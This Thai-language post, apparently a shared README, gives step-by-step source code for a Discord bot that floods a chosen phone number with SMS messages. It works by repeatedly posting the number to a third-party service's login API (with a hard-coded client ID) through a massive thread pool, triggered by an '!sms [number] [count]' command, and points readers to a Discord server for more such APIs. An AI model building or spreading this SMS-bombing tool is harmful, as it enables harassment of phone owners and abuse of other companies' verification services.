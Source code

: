 โค้ด บอท ยิงเบอร์

⤵️
เครดิต: E R R O R 6 5 5 3 5

หา API ใส่เองนะครับ หรือ ในดิสผม 
🌐discord 
https://discord.gg/qAjgnYsJ8S

🛑YouTube
https://youtube.com/channel/UCG3q8sMb25IJUUG3VgChb-Q

(🔷) ถ้าไม่เข้าใจ ขอโทษตัวครับ พึ่งหัดทำเลยแชร์ให้ทุกคนได้ศึกษา


⚪ขั้นตอน
1. สร้างไฟล์ bot.py ขึ้นมา
2. จากนั้นเปิดไฟล์ นำโค้ด ⤵️ ไปวาง


import discord,time
import discord
import requests
import time
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = "token"#นำโทเค็นบอท มาวาง

prefix = "!"#คำสั่ง

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"

⚪(3)สร้าง def api1(phone): วาง port api (ตัวอย่าง)

def api1(phone):
    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent},json={"phone": f"{phone}"})
    
⚪(4) สร้าง def BBot(phone, amount):
    for _ in range(amount):
 เพื่อเรียกใช้ 
 
 ⚪(5) สร้าง threading.submit(, phone)
 เพื่อเรียกใช้งาน api1 (ตัวอย่าง)
 
 threading.submit(api1, phone)
 
 
 ⚪(6) นำโค้ด ต่อไปนี้วาง
 
        
@bot.event
async def on_connect():
    time.sleep(0.001)
    print("B0T: ONLINE ")
    

@bot.command()
async def sms(ctx, phone, amount:int):
    
    if (amount < 151):
        
      embes = discord.Embed(title="SmS", description="Bot by : ERROR 65535",color=0xff4612)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      embes.add_field(name="จำนวน",value=amount)
      ima = "https://media.discordapp.net/attachments/983379010077745153/983933706676867122/20220608_102034.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
        
    
      BBot(phone,amount)
    else:
        await ctx.channel.send("ยิงไม่เกิน150")

@bot.command()
async def help(ctx):
    emBed = discord.Embed(title="Bot BY: ERROR 65535",description="วิธิใช้",color=0xff4612)
    emBed.add_field(name="#_#",value="!sms [เบอร์] [จำนวน1-150]")
    
    
    await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)
 
 
 
 
 
 
 
 
 
 
 
    
    









